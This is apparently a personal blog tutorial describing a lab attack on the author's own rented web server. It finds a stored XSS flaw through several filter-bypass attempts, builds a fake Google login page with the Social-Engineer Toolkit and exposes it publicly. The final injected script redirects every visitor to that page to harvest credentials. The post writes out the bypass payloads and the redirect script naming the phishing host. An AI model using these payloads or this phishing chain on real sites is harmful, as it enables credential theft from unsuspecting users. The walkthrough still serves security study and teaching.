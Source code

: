 ```yaml
---
layout: post
title: Phishing attack based on XSS vulnerability
date: 2022-02-17
Author: Ali
categories: This article is only used for cyber security research, please do not use it for improper purposes.
tags: [cyber security]
comments: true
---
```


This article will describe in detail how I exploited the XSS vulnerability to attack the web server and left a phishing website on the web server.



#### ⚠<u>**This article is only used for cyber security research, please do not use it for improper purposes.**</u>⚠



## Attack Simulation Design



![img](https://raw.githubusercontent.com/AliChenggggg/blog/main/images/XSS2022/image01.png){width="5.768055555555556in" height="3.0833333333333335in"}



![img](https://raw.githubusercontent.com/AliChenggggg/blog/main/images/XSS2022/image02.png){width="5.768055555555556in" height="3.0833333333333335in"}



## Create WEB Server

#### In order to simulate the attack more intuitively, I chose to rent a windows 2019 in Azure to create a victim web server.

#### The specific steps will not be demonstrated, I believe you can do it.

![img](https://raw.githubusercontent.com/AliChenggggg/blog/main/images/XSS2022/image001.png){width="5.768055555555556in" height="3.0833333333333335in"}





## Step 1: Start testing your website for XSS attacks

When you test for XSS vulnerabilities, you need to know that an XSS attack requires two conditions:

- Need to inject malicious code into web pages

- These malicious codes can be successfully executed by the browser

Reasons why your test might fail:

- The input characters are filtered or the content is on the blacklist
- The input content is parsed and rewritten
- Input characters are filtered by Web Application Firewall
- The length of the input content is limited and the function cannot be executed



### 😎First try😎

### Testing:

#### Try the simplest test code first 

<script>alert(XSS)</script>

![img](https://raw.githubusercontent.com/AliChenggggg/blog/main/images/XSS2022/image002.png){width="5.768055555555556in" height="4.117361111111111in"}

![img](https://raw.githubusercontent.com/AliChenggggg/blog/main/images/XSS2022/image003.png){width="5.400468066491689in" height="1.7501520122484688in"}





## Result :

#### The returned result shows that the write was successful and nothing happens on the web page.

#### F12 to view the code, it shows that the input content is filtered, the "script" tag is not executed on the web page, but is directly printed in the form of text.



![img](https://raw.githubusercontent.com/AliChenggggg/blog/main/images/XSS2022/image004.png){width="5.768055555555556in" height="1.511111111111111in"}













### 😎Second try😎



### Testing:

#### I want to test if the website has symbol filtering

%3cscript%3ealert(xss)%3c/script%3e

#### HTML supports different encodings in many cases

####  like "<"  is equivalent to %3c and ">"  is equivalent to %3e.

#### This method can bypass some symbol filtering

![img ](https://raw.githubusercontent.com/AliChenggggg/blog/main/images/XSS2022/image006.png){width="5.768055555555556in" height="0.8555555555555555in"}





### Result :

#### From the results, < is not on the filter list.

#### An accident is that after several attempts, I found that although the web page did not filter" <>" but it filtered the brackets "()".



![img](https://raw.githubusercontent.com/AliChenggggg/blog/main/images/XSS2022/image005.png){width="5.768055555555556in" height="2.6944444444444446in"}











### 😎Third try 😎



### Testing:

#### From the results of the first attempt, the input content will be passed in the form of text, indicating that the input content is limited to a tag, and the analysis code can also find that all our content is in the <u>**"td"**</u> tag.



#### Try closing the tab this time，We need add “Textarea” and “td” into our code.

```html
</textarea></td>%3cscr%3cscript%3eipt%3ealert(hello! I am Ali! Nice to meet u ^ ^)%3c/scr%3c/script%3eipt%3e
```

![img](https://raw.githubusercontent.com/AliChenggggg/blog/main/images/XSS2022/image007.png){width="5.768055555555556in" height="3.9555555555555557in"}



### Result :

#### The code we entered appeared directly on the web page, which is a successful signal

#### This shows that the code is indeed executed.



![img](https://raw.githubusercontent.com/AliChenggggg/blog/main/images/XSS2022/image008.png){width="5.768055555555556in" height="0.9854166666666667in"}









### 😎Fourth try：😎

### Testing:

### In the third attempt, the code was successfully executed, but there was no pop-up window specific to XXS attacks. 

### My thinking this time is to append the "Body" closing tag,

```html
</body\>\</textarea\>\</td\>\<svg\>\<script\>alert&#40xss&#41\</script\>
```

![img](https://raw.githubusercontent.com/AliChenggggg/blog/main/images/XSS2022/image009.png){width="5.768055555555556in" height="2.571527777777778in"}

### Result :

#### The XSS attack was successful and the code was successfully executed. 

#### After successful execution of XSS, all users browsing this web will be affected.

![img](https://raw.githubusercontent.com/AliChenggggg/blog/main/images/XSS2022/image010.png){width="5.768055555555556in" height="3.15625in"}







## Step 2: Build a phishing website via SET 

#### The hacker uses the latest Kali system, 

#### we can use the SET attack to quickly create a phishing web page, and any results entered on the phishing web page will be returned to the SET server.

#### This time I used google's login page directly

![img](https://raw.githubusercontent.com/AliChenggggg/blog/main/images/XSS2022/image013.png){width="5.768055555555556in" height="4.236111111111111in"}

![img](https://raw.githubusercontent.com/AliChenggggg/blog/main/images/XSS2022/image015.png){width="5.768055555555556in" height="3.277083333333333in"}



#### After the phishing website is completed, we need to map the webpage to the public network so that everyone on the Internet can access the phishing website.



![img](https://raw.githubusercontent.com/AliChenggggg/blog/main/images/XSS2022/image016.png){width="5.768055555555556in" height="3.4756944444444446in"}

![img](https://raw.githubusercontent.com/AliChenggggg/blog/main/images/XSS2022/image017.png){width="5.768055555555556in" height="1.3784722222222223in"}







## Implant malicious code

   

#### Use window.location.href=\"https://fubxzk.39nat.com\"; instead of alert&#40/XSS/&#41\

#### The final malicious code is：

```html
</body\>\</textarea\>\</td\>\<svg\>\<script\>window.location.href=\"https://fubxzk.39nat.com\";\</script\>
```

![img](https://raw.githubusercontent.com/AliChenggggg/blog/main/images/XSS2022/image020.png){width="5.768055555555556in" height="2.841666666666667in"}







#### If the user enters account information on the web page, the information will be sent directly to the SET server

![img](https://raw.githubusercontent.com/AliChenggggg/blog/main/images/XSS2022/image021.png){width="5.768055555555556in" height="3.6444444444444444in"}

![img](https://raw.githubusercontent.com/AliChenggggg/blog/main/images/XSS2022/image022.png){width="5.768055555555556in" height="2.0368055555555555in"}



#### So far, An entire XSS attack is completed.

#### By the way,This is not my email address, and the password is also made up.

### and

# ⚠<u>**This article is only used for cyber security research, please do not use it for improper purposes.**</u>⚠



